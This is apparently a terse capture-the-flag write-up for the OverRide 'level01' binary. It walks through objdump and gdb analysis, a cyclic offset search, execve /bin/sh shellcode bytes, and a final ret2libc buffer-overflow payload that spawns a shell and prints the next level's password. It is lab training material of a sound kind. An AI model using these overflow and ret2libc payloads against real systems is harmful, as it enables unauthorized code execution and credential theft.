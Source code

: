 
```asm
objdump -t level01 | grep bss
0804a040 g     O .bss	00000064              a_user_name

objdump -t level01 | grep text
080484d0 g     F .text	000000e6              main
08048464 g     F .text	0000003f              verify_user_name
```

```asm
disass main

 0x0804852d <+93>:	call   0x8048464 <verify_user_name>
 
 0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
```

```asm
disass verify_user_name

0x0804847d <+25>:	mov    $0x80486a8,%eax

(gdb) x/s 0x80486a8
0x80486a8:	 "dat_wil"
```

```
disass verify_user_pass

```
`cyclic 100`
```
Program received signal SIGSEGV, Segmentation fault.
0x61616175

Desktop cyclic -l 0x61616175
80
```

```asm
  0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
  0x08048585 <+181>:	mov    %eax,0x5c(%esp)
  
  b *main+181
  
  run 
  
  Enter Username: dat_wil
  Enter Password:
  AAAA
  
  x/80wx $esp
  0xffffd680:	0xffffd69c	0x00000064	0xf7fcfac0	0x00000001
  0xffffd690:	0xffffd8a1	0x0000002f	0xffffd6ec	0x41414141
```

also u can use the syntax:
`run < <(python -c 'print("dat_wil\nAAAA\n")')`
`run < <(python -c 'print("dat_wil")' && python -c 'print("AAAA")')` / `run < <(python -c 'print "dat_wil"' && python -c 'print "AAAA"')`

```py
run < <(python -c 'print "dat_will"' && python -c 'print "A" * 80 + "BBBB"')
run < <(python -c 'print "dat_will\n" + "\x90" * 59 + "C" * 21 + "BBBB"')

x $ebp+4
0xffffd6ec:	0x42424242
```
```asm
run < <(python -c 'print "dat_wil"' && python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90" * 59 +  "\xff\xff\xd6\x9c"[::-1]')


x $ebp+4
0xffffd6ec:	0xffffd69c

x *0xffffd6ec
0xffffd69c:	0x99580b6a
```


nothing

```asm
ltrace ./level01

puts("Enter Password: "Enter Password:
)                                         = 17
fgets(AAAA
"AAAA\n", 100, 0xf7fcfac0)                                 = 0xffffd6ac


level01@OverRide:~$ (python -c 'print "dat_will"'; python -c 'print  "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"  + "\x90" * 59 + "\xff\xff\xd6\xac"[::-1]'; cat -)  | ./level01

pwd
Segmentation fault (core dumped)
```



error gdb
```
process 1707 is executing new program: /bin/dash
warning: Selected architecture i386:x86-64 is not compatible with reported target architecture i386
Architecture of file not recognized.
```

i will go with ret2libc
```gdb
(gdb) p &system
 0xf7e6aed0 
 
 or 
 
 (gdb) info addr system
 0xf7e6aed0 
 
(gdb) p &exit
 0xf7e5eb70 
 ```
 ```gdb
(gdb) find system, +9999999, "/bin/sh"
0xf7f897ec

or

 (gdb) info proc map
	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
	 0xf7e2b000 0xf7e2c000     0x1000        0x0
	 0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so

find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
```

so

payload = padding + system + return_after_system + bin_sh

`payload = "A" * 80 + "\xf7\xe6\xae\xd0"[::-1] + "AAAA" + "\xf7\xf8\x97\xec"[::-1]`

```py
level01@OverRide:~$ (python -c 'print "dat_will\n" + "A" * 80 + "\xf7\xe6\xae\xd0"[::-1] + "AAAA" + "\xf7\xf8\x97\xec"[::-1]' ; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

pwd
/home/users/level01
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
